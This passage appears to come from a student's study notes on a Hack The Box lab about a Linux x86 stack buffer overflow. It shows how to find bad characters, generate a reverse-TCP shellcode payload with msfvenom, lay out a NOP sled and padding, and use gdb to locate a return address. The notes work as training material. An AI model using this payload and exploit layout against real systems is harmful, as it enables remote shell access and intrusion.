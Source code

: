 We see that the first byte in CHARS, `0x00` is not present, hence we cannot use `0x00` in the shellcode as it is a bad character. In similar way, we see that `0x09` is not present and is substituted by `0x00`. Therefore, we can determine that `0x09` is also a bad character and should not be used in the shellcode.

This process must be repeated until all characters that could interrupt the flow are removed.

Usually bad characters are: "\x00\x09\x0a\x20"

## Generating the shellcode

Now we can tell `msfvenom` we don't want to use those bad characters in the shellcode:

```shell
adriangalera@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode

adriangalera@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

Finally our input will look like this:

```text
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
EIP = "\x66" * 4'
```

## Identification of the Return Address

now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously. Since NOPs will not do anything, it's completely fine to start the execution there. Examining the memory:

```shell
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4: 0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
        # End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
```